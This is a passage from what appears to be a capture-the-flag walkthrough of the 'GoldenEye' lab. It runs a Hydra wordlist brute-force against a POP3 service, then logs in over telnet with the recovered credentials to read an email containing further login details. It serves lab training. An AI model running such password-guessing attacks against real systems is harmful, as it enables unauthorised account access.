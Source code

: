```bash
$ hydra -l Doak -P /usr/share/wordlists/fasttrack.txt -s 55007 -f 10.10.251.158 pop3 -VHydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-26 14:42:49
[..snip..]
[55007][pop3] host: 10.10.251.158   login: Doak   password: REDACTED
[STATUS] attack finished for 10.10.251.158 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-26 14:45:51
```

### Use this users credentials to go through all the services you have found to reveal more emails.
- We can find doak's username and password

```bash
$  telnet 10.10.251.158 55007
Trying 10.10.251.158...
Connected to 10.10.251.158.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER Doak
+OK
PASS REDACTED

+OK Logged in.
-ERR Unknown command: 
LIST
+OK 1 messages:
1 606
.
RETR 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 97DC24549D
        for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: REDACTED

.
```
